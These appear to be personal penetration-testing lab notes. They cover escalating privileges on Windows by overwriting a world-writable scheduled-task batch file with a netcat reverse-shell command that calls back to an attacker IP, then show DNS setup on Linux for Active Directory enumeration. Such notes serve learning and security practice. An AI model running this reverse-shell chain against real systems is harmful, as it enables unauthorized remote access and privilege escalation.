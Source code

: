 ```
Months:                               N/A
Repeat: Every:                        N/A
Repeat: Until: Time:                  N/A
Repeat: Until: Duration:              N/A
Repeat: Stop If Still Running:        N/A
```
important:
```
Task To Run:                          C:\tasks\schtask.bat
Run As User:                          taskusr1
```
Maybe you can append sth to execute via `schtask.bat` as user `taskusr1`?

`icacls c:\tasks\schtask.bat`
```
c:\tasks\schtask.bat BUILTIN\Users:(I)(F)
                     NT AUTHORITY\SYSTEM:(I)(F)
                     BUILTIN\Administrators:(I)(F)

Successfully processed 1 files; Failed processing 0 files
```
We see that all users have full (F) access to `schtask.bat`

Listener on Kali:
`netcat -lvnp 4444`

Reverse shell on Target:
`echo c:\tools\nc64.exe -e cmd.exe 10.18.9.175 4444 > C:\tasks\schtask.bat`
`nc64.exe`- `netcat`
Better to use `cmd` for that one. `ps` did a strange thing and appended unknown character to redirection (INVESTIGATE)

`schtasks /run /tn vulntask`

#### AD enum

**For DNS resolution**:
`sudo nvim /etc/systemd/resolved.conf`
add
```
DNS=IP_OF_AD_DC
```
`sudo systemctl restart systemd-resolved.conf`
without this some applications won't be able to resolve (e.g. browser, ssh). Why? I have no idea yet-.-
ArchWiki suggest it should work with only changing the `/etc/resolv.conf` via `NetworkManager` options

Add `AD DC` IP as `DNS` via `NetworkManager GUI` OR directly append
```
nameserver IP_OF_AD_DC
```
to `/etc/resolv.conf`
`sudo systemctl restart NetworkManager`
